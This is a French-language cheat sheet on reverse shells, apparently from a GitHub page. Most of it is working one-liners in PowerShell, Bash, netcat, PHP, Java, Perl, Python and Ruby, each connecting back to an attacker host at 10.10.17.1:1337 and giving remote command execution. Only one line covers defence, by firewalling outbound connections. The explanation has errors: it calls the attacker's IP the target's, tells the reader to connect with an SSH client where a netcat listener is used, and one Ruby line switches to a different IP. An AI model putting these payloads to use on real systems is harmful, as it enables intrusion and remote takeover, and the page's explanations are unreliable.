 Un shell inversé ou "reverse shell" est un script ou un programme exécutable qui permet un accès shell interactif à un système via une connexion sortante de ce système

Les pirates malveillants utilisent souvent des shells inversés pour envoyer des commandes à un système compromis, et ils peuvent être utilisés à des fins légitimes, telles que l'administration de serveur distant

# Windows Power Shell
Pour les systèmes Windows, un shell inversé peut être créé à l'aide de PowerShell

Exemple de shell PowerShell inversé :
```
$sm=(New-Object Net.Sockets.TCPClient("10.10.17.1",1337)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
$sm.Write($st,0,$st.Length)}
```

Ce script établit une connexion shell inverse de la machine cible à la machine de l'attaquant, qui écoute sur le port TCP 1337. L'adresse IP de la machine cible est "10.10.17.1" dans cet exemple

Vous n'avez plus qu'à vous connecter via un client SSH

## Alternative avec HTA
Une autre méthode consiste à utiliser des fichiers HTA avec PowerShell intégré. Par exemple, un shell inversé peut être intégré dans un fichier HTA et exécuté à l'aide de `mshta.exe`

Pour empêcher l'utilisation inverse du shell, vous pouvez imposer un contrôle strict sur les connexions sortantes à l'aide d'un pare-feu et vous assurer que toute activité suspecte est surveillée de près

# Linux bash
Pour envoyer des commandes à un shell inversé sur Linux, vous devez établir un listener sur votre machine locale, puis vous connecter au shell inverse sur la machine cible. 

Voici un exemple de base en utilisant Netcat:
## Établissez un Listener
- Sur votre machine locale, démarrez un listener Netcat pour recevoir la connexion shell inversée : `nc -l -p 1337`
  - Cette commande écoute les connexions entrantes sur le port 1337.

## Envoyer des commandes
- Une fois le shell inversé connecté, vous pouvez envoyer des commandes comme vous le feriez dans une session shell normale
- Pour un shell Bash inversé, vous pouvez utiliser : `bash -i >& /dev/tcp/your_ip/your_port 0>&1`
  - Une fois que le shell inverse se connecte, vous pouvez envoyer des commandes directement au shell
Par exemple, pour vérifier l'utilisateur actuel, vous pouvez taper : `whoami`

# Autres reverse shell
[invicti.com/learn/reverse-shell](https://www.invicti.com/learn/reverse-shell/)
## NetCat
`ncat -l -p 1337` ou `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.1 1337 >/tmp/f`
## PHP
`php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.1/1337;
cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## PERL
```
perl -e 'use Socket;$i="10.10.17.1";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```
### Python
```
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.17.1",1337));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
## RUBY
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.17.1","1337");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```
ou
```
ruby -rsocket -e'f=TCPSocket.open("10.0.17.1",1337).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```